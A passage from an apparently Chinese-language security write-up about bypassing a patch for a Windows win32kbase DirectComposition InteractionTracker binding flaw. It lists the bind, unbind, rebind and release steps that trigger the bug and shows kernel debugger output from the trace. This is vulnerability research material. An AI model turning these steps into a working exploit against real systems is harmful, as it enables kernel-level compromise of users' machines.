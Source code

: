 因此，我们可以构造如下步骤来绕过该补丁。

1.Bind Tracker to the TrackerBindingA 

![](https://mmbiz.qpic.cn/mmbiz_png/AvAjnOiazvnfhwzeiaH8mRHicdoRcib48gmIckALvf6TgfvuusvbIryJWlsjxtVbFBAVWDBUmD6xbkC3pqsELncGBw/640?wx_fmt=png)

2.Unbind by setting tracker_id to 0 

![](https://mmbiz.qpic.cn/mmbiz_png/AvAjnOiazvnfhwzeiaH8mRHicdoRcib48gmIc2XdIQfFz3Nic1pX9Tvya1k4JXqREwPfTxJ2ShOd37RBOty1TtRV9Lw/640?wx_fmt=png)

3.Bind Tracker to the TrackerBindingB 

![](https://mmbiz.qpic.cn/mmbiz_png/AvAjnOiazvnfhwzeiaH8mRHicdoRcib48gmIfuXekiaxqicNolWClgaFKWvLQ7zmPhfjgjrHQPl1HyXg3fyVtSeVI8Yg/640?wx_fmt=png)

4.Activate the Entry by setting tracker_id to Non-ZERO 

![](https://mmbiz.qpic.cn/mmbiz_png/AvAjnOiazvnfhwzeiaH8mRHicdoRcib48gmI1yhL1cv6nc0cYzfhgrmfmYyiajm5RvtHry1KaJqMsickSjuh2IzicJYXQ/640?wx_fmt=png)

5.Release Tracker Resource Object 

![](https://mmbiz.qpic.cn/mmbiz_png/AvAjnOiazvnfhwzeiaH8mRHicdoRcib48gmIia8ke2uD4YzsUx5djJshQbZYmzFIZOWgNIhN05zoj8nwud2QLDKUVog/640?wx_fmt=png)

```
0: kd> bl
     0 e Disable Clear  ffffb598`64db2afd e 1 0001 (0001) win32kbase!DirectComposition::CApplicationChannel::CreateResource+0x49
     1 e Disable Clear  ffffb598`64f4d510 e 1 0001 (0001) win32kbase!DirectComposition::CInteractionTrackerBindingManagerMarshaler::SetBufferProperty
     3 e Disable Clear  ffffb598`64f4c0b0 e 1 0001 (0001) win32kbase!DirectComposition::CInteractionTrackerMarshaler::ReleaseAllReferences


[+] Create First TrackerBinding Resource Object
0: kd> g
Breakpoint 0 hit
win32kbase!DirectComposition::CApplicationChannel::CreateResource+0x49:
ffffb598`64db2afd e8daf3ffff      call    win32kbase!DirectComposition::CLinearObjectTableBase::InsertObject (ffffb598`64db1edc)

0: kd> r
rax=0000000000000000 rbx=0000000000000000 rcx=ffffb5b98602fc68
rdx=ffffb5b984c1b450 rsi=ffffb5b984c1b450 rdi=ffffb5b98602fc30
rip=ffffb59864db2afd rsp=ffffb08e12fb88f0 rbp=0000000000000059
 r8=0000000000000001  r9=0000000000000000 r10=ffffb5b380001000
r11=ffffb5b982f6fc30 r12=ffffb5b98602fc30 r13=0000000000000001
r14=0000000000000001 r15=ffffb5b98602fc00
iopl=0         nv up ei pl zr na po nc
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00040246
win32kbase!DirectComposition::CApplicationChannel::CreateResource+0x49:
ffffb598`64db2afd e8daf3ffff      call    win32kbase!DirectComposition::CLinearObjectTableBase::InsertObject (ffffb598`64db1edc)

0: kd> p
win32kbase!DirectComposition::CApplicationChannel::CreateResource+0x4e:
ffffb598`64db2b02 8bd8            mov     ebx,eax

1: kd> dps ffffb5b984c1b450    # RDX
ffffb5b9`84c1b450  ffffb598`64f77070 win32kbase!DirectComposition::CInteractionTrackerBindingManagerMarshaler::`vftable'
ffffb5b9`84c1b458  00000000`00000000
ffffb5b9`84c1b460  00000001`00000000
ffffb5b9`84c1b468  00000000`00000001

```
